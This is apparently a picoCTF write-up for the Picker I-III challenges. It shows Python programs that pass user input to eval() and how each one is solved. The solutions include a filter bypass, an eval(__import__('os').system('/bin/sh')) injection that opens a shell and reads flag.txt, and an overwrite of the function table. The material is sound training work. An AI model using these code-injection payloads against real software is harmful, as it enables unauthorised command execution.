

# Picker I-III
Picker I Challenge Description:
> This service can provide you with a random number, but can it do anything else?

Picker II/III Challenge Description:
> Can you figure out how this program works to get the flag?

CTF: <b>picoCTF</b> (picoGym)<br>Difficulty: <b>Medium</b>

<b>[Jump to solution](#solution)</b>

## Hints
Here are the hints provided by the challenge author.
<details>
<summary>Picker I</summary>

> Can you point the program to a function that does something useful for you?
</details>
<details>
<summary>Picker II</summary>

> Can you do what `win` does with your input to the program?
</details>
<details>
<summary>Picker III</summary>

> Is there any way to modify the function table?
</details>

## Procedure
Since the solution to Picker I and II are both simple I bundled them with Picker III.
1. [Picker I](#picker-i)
2. [Picker II](#picker-ii)
3. [Picker III](#picker-iii)

Picker IV is part of the Binary Exploitation category.

### Picker I
Running the program allows us to run functions by inputting their names.
```
$ python3 picker-I.py 
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber
4
```
If you check the code, the program uses your input in an `eval()` statement.
```python
def win():
  flag = open('flag.txt', 'r').read()
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
...
while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
```
Entering `win` as the input executes `win()`, giving us the flag in hex bytes.
```
$ python3 picker-I.py 
Try entering "getRandomNumber" without the double quotes...
==> win
0x68 0x61 0x6d 0x6d 0x79 0x7b 0x75 0x20 0x77 0x69 0x6e 0x20 0x2d 0x20 0x68 0x61 0x6d 0x6d 0x79 0x7d 
```
> 

### Picker II
Picker II is the same as Picker I except it filters out the word `win` (case-sensitive) from your input. 
```python
def filter(user_input):
  if 'win' in user_input:
    return False
  return True


while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
```

You can inject your own eval to facilitate "crafting" the word `win` in your input without actually inputting it, or just abuse eval in general to do whatever you want.
```
==> eval("WIN".lower())
0x68 0x61 0x6d 0x6d 0x79 0x7b 0x75 0x20 0x77 0x69 0x6e 0x20 0x2d 0x20 0x68 0x61 0x6d 0x6d 0x79 0x7d 
==> eval(chr(0x77)+chr(0x69)+chr(0x6e))
0x68 0x61 0x6d 0x6d 0x79 0x7b 0x75 0x20 0x77 0x69 0x6e 0x20 0x2d 0x20 0x68 0x61 0x6d 0x6d 0x79 0x7d 
==> eval(__import__('os').system('/bin/sh'))
ls
Dockerfile
Makefile
flag.txt
picker-II.py
setup-challenge.py
start.sh
cat flag.txt
hammy{u win - hammy}
exit
```

### Picker III
Now it's slightly more complicated. The program only allows you to choose from a selection of functions to call instead of allowing you to input a function name.
```
==> help

This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 4
4
==> 2
Please enter variable name to read: func_table
print_table                     read_variable                   write_variable                  getRandomNumber                 
==> 
```
Looking at the source code, the way parsing user input works is `call_func(n)` is called with `n` based on your input.
```python
def call_func(n):
  """
  Calls the nth function in the function table.
  Arguments:
    n: The function to call. The first function is 0.
  """

  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  # Check n
  if( n < 0 ):
    print('n cannot be less than 0. Aborting...')
    return
  elif( n >= FUNC_TABLE_SIZE ):
    print('n cannot be greater than or equal to the function table size of '+FUNC_TABLE_SIZE)
    return

  # Get function name from table
  func_name = get_func(n)

  # Run the function
  eval(func_name+'()')
```
`call_func(n)` itself calls `get_func(n)` to determine the name of the function to call, which parses `func_table` to get the name of the function based on index `n`.
```python
def get_func(n):
  global func_table

  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  # Get function name from table
  func_name = ''
  func_name_offset = n * FUNC_TABLE_ENTRY_SIZE
  for i in range(func_name_offset, func_name_offset+FUNC_TABLE_ENTRY_SIZE):
    if( func_table[i] == ' '):
      func_name = func_table[func_name_offset:i]
      break

  if( func_name == '' ):
    func_name = func_table[func_name_offset:func_name_offset+FUNC_TABLE_ENTRY_SIZE]
  
  return func_name
```
Choosing to `write_variable` actually allows us to modify `func_table` but some restrictions apply as defined by `check_table()`.
```python
FUNC_TABLE_SIZE = 4
FUNC_TABLE_ENTRY_SIZE = 32
...
def check_table():
  global func_table

  if( len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
    return False

  return True
```
So the table must be exactly 128 bytes in length, and due to how `get_func` works each entry should be 32 bytes in length. 

We can ignore the 32 byte entry length restriction altogether because we're only interested in writing one entry in the table - `win`. Choosing to write a variable named `func_table` with a value of `win` (followed by 125 spaces) allows us to call `win` by choosing option `1` (print table).
```
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "win                                                                                                                             "
==> 1
0x68 0x61 0x6d 0x6d 0x79 0x7b 0x75 0x20 0x77 0x69 0x6e 0x20 0x2d 0x20 0x68 0x61 0x6d 0x6d 0x79 0x7d 
```

## Solution
### Picker I
1. Input `win`.
2. Convert the hex bytes to readable text.
### Picker II
1. Input `eval(__import__('os').system('/bin/sh'))`.
2. Run the command `cat flag.txt`.
### Picker III
1. Choose to write a variable.
    - Name: `func_table`
    - Value: `win` followed by 125 spaces (so the input is 128 bytes in length)
2. Choose to print the table.
3. Convert the hex bytes to readable text.
